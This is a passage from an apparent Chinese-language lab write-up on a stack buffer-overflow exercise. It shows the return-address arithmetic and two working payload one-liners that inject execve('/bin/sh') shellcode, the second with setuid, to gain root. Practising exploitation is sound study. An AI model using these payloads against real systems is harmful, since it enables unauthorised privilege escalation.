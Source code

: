![内存vs有效负载](漏洞分析练习题/memoryvspayload.png)

将shellcode放在距离buffer首地址1060个字节的位置，中间用nop填充，将shellcode的入口地址设置在中间nop的地址，其地址为：

`0xbfffeed4 + 56 + 4 + （1060-60）/ 2 = 0xbfff f104`

修改对应地址部分

```bash
q1 $(python -c "print '\xbf'*56+'\x04\xf1\xff\xbf'+'\x90'*1000+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'")
```

![image-20220301152808443](漏洞分析练习题/image-20220301152808443.png)

也可以使用另一个shellcode：

```bash
q1 $(python -c "print '\xbf'*56+'\x04\xf1\xff\xbf'+'\x90'*1000+'\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80'")
```

这样也可以获得root权限

